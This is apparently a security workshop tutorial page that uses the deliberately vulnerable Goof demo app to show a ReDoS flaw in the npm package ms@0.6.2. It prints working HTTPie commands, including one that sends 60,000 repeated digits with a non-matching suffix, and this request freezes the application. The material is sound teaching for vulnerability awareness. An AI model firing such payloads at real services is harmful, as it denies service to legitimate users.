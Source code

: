# Example 3

Our third example vulnerability is with the [`ms`](https://www.npmjs.com/package/ms) [npm](https://www.npmjs.com/) package. This is a module that allows easy conversion of various time formats into milliseconds. The issue here is that we are using `ms@0.6.2` and this has a [Regular Expression Denial of Service \(ReDos\)](https://snyk.io/test/npm/ms/0.6.2) vulnerability.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/vuln_ms.png)

What this package allows us to do is to take a string input and parse into milliseconds which our application will then use to send a reminder. For example:

![](http://g.recordit.co/tgye3UMxmo.gif)

To demonstrate this vulnerability, we will move to the terminal. Let's run the following command against our application:

```text
echo 'content=Reboot server in 20 minutes' | http --form $GOOF_HOST/create -v
```

 The result will be console output similar to this:

```text
POST /create HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: elb.amazonaws.com
User-Agent: HTTPie/2.1.0

content=Reboot server in 20 minutes

HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 28
Content-Type: text/html; charset=utf-8
Date: Sat, 13 Jun 2020 21:20:16 GMT
ETag: W/"1c-41a86905"
Location: /
Vary: X-HTTP-Method-Override
X-Powered-By: Express

UmVib290IHNlcnZlciBbMjBtXQ==
```

A corresponding web result will look like this:

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/goof_ms_01.png)

Now we will take the previous command but print the digit 5 a total of 60,000 times. This regular expression will take a non-linear amount of time to process an input. The longer the input, the longer the processing time. Let's run the following command

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutes' | http --form $GOOF_HOST/create -v
```

The result here was surprisingly fast. However, what happens when the regular expression does not match? To illustrate this, let's take the same command and swap the _**s**_ in _**minutes**_ for an _**a**_ instead. Type the following command:

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutea' | http --form $GOOF_HOST/create -v
```

This command will take a while to process and result in a non-responsive application. If you try to add or remove tasks the application will not respond and you have blocked legitimate requests from processing.

